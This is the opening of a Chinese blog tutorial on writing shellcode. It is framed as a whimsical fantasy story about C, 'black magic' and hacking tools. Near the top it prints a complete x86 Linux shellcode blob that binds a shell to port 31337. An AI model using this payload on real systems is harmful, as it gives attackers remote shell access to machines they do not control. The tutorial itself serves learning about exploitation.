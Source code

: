 ```yaml
---
layout: post
title: "Shellcode: 暗黑魔咒"
excerpt: "Writing your first shellcode"
category: exploit
tags: [shellcode]
disqus: true
---
```

{% include JB/setup %}

**警告：写的匆忙，里头有好多通甲字，作者实在懒得去辨认哪个字是对的，也许会满满修改吧，也许再也不会回头看了。另外，其实整个shellcode都来自那啥挖财宝的艺术一书，本文只是备忘、读后感、总结、笔记等诸如此类的东西，不算啥原创教程、葵花宝典、用户手册一类的高级货，所以很低端基础下档次，请大婶们轻喷:(**

> \x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x66\x58\x99\x31
> \xdb\x43\x52\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x96\x6a\x66\x58\x43
> \x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd
> \x80\xb0\x66\x43\x43\x53\x56\x89\xe1\xcd\x80\xb0\x66\x43\x52\x52
> \x56\x89\xe1\xcd\x80\x93\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9
> \xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52
> \x89\xe2\x53\x89\xe1\xcd\x80
> 
> 某个不知名的暗黑魔咒之shellcode

# 引子

多年之后，人们想起早年的尤利克斯黑法师仍然不寒而栗，他们来去无踪，却法力无边。他们出现在暗处低声吟诵不知所云的咒语，黑色的风暴便席卷整个大地，世界都在颤抖。他们不按规矩办事，是的，他们从不可能中创造出奇迹，几乎被奉为神明。

四十年前当炼金术士K&R在著名的贝尔实验室提炼出C元素时，黑魔法便诞生了。然而炼金术士们拒绝为他们符合K哲学的元素添加其它特性，他们想让使用它的法师们拥有更大的自由，嗯，法师们应该自己为自己负责。这种简洁和强大的元素立刻在法师们中流行开来，法师们用C元素重新创建了魔法世界，他们创造了各个大陆：尤利克斯、文都斯、利乐科斯等等，许多快乐的草泥马们无忧无虑地生活在这些繁荣的世界，他们又用C元素创建了因特奈特，将整个宇宙融为一体。是的，这是C的世界。

然而炼金术士们的选择终会付出代价，一些巫师们抓住C元素的不检查数据边界的特性，开发了强大的黑魔法。20世界初期大魔导师汤普森曾经说，在C的世界晴朗的天空中，漂浮着两朵乌云，一朵是黑魔法，一朵是黑魔法师们。是的，这些黑魔法和C的世界一样古老。

虽然那些黑魔法师们很可怕，正直而善良的法师们也没有坐以待毙，他们集结成社，开发了多种黑魔法防御术，建立了各种各样的法师团体替天行道保境安民，著名的有卡巴斯基、啊瓦斯特。但还有些团体在名目张胆研究和尝试新的黑魔法，他们负责测试和演习人们对黑魔法的防御程度，以促进对黑魔法防御术的研究。

多亏具有分享精神的正直法师们，黑魔法逐渐在公众面前揭开了它的迷雾和面纱。我们才知道那不过是一种不按规矩来的法术和一些平常很难用到的咒语而已，并不像魔法世界流行的黑法师泡沫剧中所描述的那样：黑法师们赤手空拳就能凭借意念摧毁整个C的世界。

本文作者很荣幸翻越了一些魔法禁书，看到了一些神奇的黑魔法，现在讲讲那让人眼花了乱该死的十六进制乱码咒语，希望大家喜欢。

## 你不能赤手空拳施法！

是的，起码你需要个魔杖或类似神秘的！电影电视上赤手空拳施法太奇葩了……大多数法器都是法师们由C元素炼成的，他们在C的世界里是真正的奇迹。这里我只列出一些在黑法师手中比较流行的法器：

- 蛇。是的，有群人很喜欢蛇……他们施法时会带上一群蛇，据说第一条C之蛇是由满头长蛇的Guido直接用C炼成的，没人见过他，因为见过它的法师都变成石头了。但是,他把炼蛇之术公知与众，于是他的蛇也因为强大到邪恶被越来越多的法师们作为了法器。
- 红宝石。 第一个C红宝石是十五年前炼成，最初的几年没什么人注意。后来其优良特性和美感吸引了越来越多的人，法师们发现红宝石使用起来灵活且让人快乐。特别是当法师团体买特斯普罗特将其作为其团体成员通用法器之后，红宝石迅速在黑法师团体中流行起来。
- 有群老法师骑着骆驼，至今人们不知道那些法师怎么靠骆驼施法
- 有群法师拿着破壳当法器。可能是贝壳或王八壳或者其它什么果壳之类的，壳不仅仅用来占卜，还可以杀人越货。如果你跟着往下尝试了，你就会用到一个壳= =
- 当然，有些法师只需要C元素就够了，
- 高端的法师甚至知道如何运用C炼成之前的物质，他们必须知道……
- 还有很多C炼成的工具，在不同大陆却可能不一样。
- 当然还有些很奇怪的人：有群法师骑着一匹快乐的草泥马，他们自称lisp alien，有群法师用咖啡杯做法器，听说还有群法师天天在那里撸啊撸的，这些中二的法师让本文作者无力吐槽：）
